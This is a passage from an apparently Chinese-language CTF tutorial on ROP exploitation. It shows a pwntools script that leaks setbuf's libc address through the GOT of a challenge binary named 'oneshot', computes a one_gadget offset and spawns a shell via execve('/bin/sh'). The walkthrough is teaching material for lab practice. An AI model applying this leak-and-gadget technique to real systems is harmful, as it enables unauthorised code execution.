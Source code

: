 程序中执行`call rdx`前会执行`mov eax,0`所以这里选择第一个gadget：`0x45526 execve("/bin/sh",rsp+0x30,environ)`
构建脚本如下：

```python
  #!/usr/bin/python
  #coding:utf-8

  from pwn import *

  one_gadget_rce = 0x45526
  #one_gadget libc.so.6_x64
  #0x45526        execve("/bin/sh", rsp+0x30, environ)
  #constraints:
  #  rax == NULL
  setbuf_addr = 0x77f50
  setbuf_got = 0x600ae0

  io=process("./oneshot")
  # io = remote("172.17.0.2", 10001)

  io.sendline(str(setbuf_got))
  io.recvuntil("Value: ")
  setbuf_memory_addr = int(io.recv()[:18], 16)

  io.sendline(str(setbuf_memory_addr - (setbuf_addr - one_gadget_rce)))

  io.interactive()
```

因为程序第一个输入部分会将我们输入的地址的内存地址打印出来，所以我们可以通过`setbuf`的`got`表地址来泄露`setbuf`在内存中的地址，然后再计算偏移量得到我们找到的gadget在内存中的地址。

![Alt](img/ROP技术60.png)
![Alt](img/ROP技术61.png)

